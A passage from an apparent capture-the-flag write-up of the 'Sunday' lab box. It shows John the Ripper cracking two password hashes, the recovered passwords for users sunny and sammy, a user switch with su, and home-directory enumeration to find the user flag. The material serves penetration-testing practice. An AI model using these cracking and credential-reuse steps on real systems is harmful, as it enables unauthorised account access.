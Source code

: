 ```bash
Loaded 2 password hashes with 2 different salts (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sunday           (sunny)     
cooldude!        (sammy)     
2g 0:00:00:21 DONE (2024-04-02 15:17) 0.09272g/s 9494p/s 9684c/s 9684C/s domonique1..bluenote
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                      
```
Looks like we were able to crack the two hashes. Now we should add the new information to our notes.
- sunny:sunday
- sammy:cooldude!

Now we can change the user to sammy and continue enumerating on the system.
```bash
sunny@sunday:~$ su sammy
Password: 
Warning: 2 failed authentication attempts since last successful authentication.  The latest at Tue Apr 02 12:43 2024.
sammy@sunday:~$ id
uid=100(sammy) gid=10(staff)
sammy@sunday:~$ whoami
sammy

```
We are sammy on the system, let's enumerate the home directory of the users to see if we can find the user flag here.

```bash
sammy@sunday:~$ ls -ahlR /home
/home:
total 30
dr-xr-xr-x   4 root     root           4 Dec 19  2021 .
drwxr-xr-x  25 root     sys           28 Apr  2 11:25 ..
drwxr-xr-x   2 root     root           3 Dec 19  2021 sammy
drwxr-xr-x   2 sunny    staff          8 Apr 13  2022 sunny

/home/sammy:
total 8
drwxr-xr-x   2 root     root           3 Dec 19  2021 .
dr-xr-xr-x   4 root     root           4 Dec 19  2021 ..
-rw-r-----   1 sammy    root          33 Apr  2 11:25 user.txt

/home/sunny:
total 19
drwxr-xr-x   2 sunny    staff          8 Apr 13  2022 .
dr-xr-xr-x   4 root     root           4 Dec 19  2021 ..
-rw-------   1 sunny    staff        402 Apr 13  2022 .bash_history
-r--r--r--   1 sunny    staff        159 Dec 19  2021 .bashrc
-rw-r--r--   1 sunny    staff        568 Dec 19  2021 .profile
-rw-r--r--   1 sunny    staff        156 Dec 19  2021 local.cshrc
-rw-r--r--   1 sunny    staff         97 Dec 19  2021 local.login
-rw-r--r--   1 sunny    staff        119 Dec 19  2021 local.profile
sammy@sunday:~$ 

```
The user flag is stored in the home directory of sammy. We can capture the flag with a simple cat command.
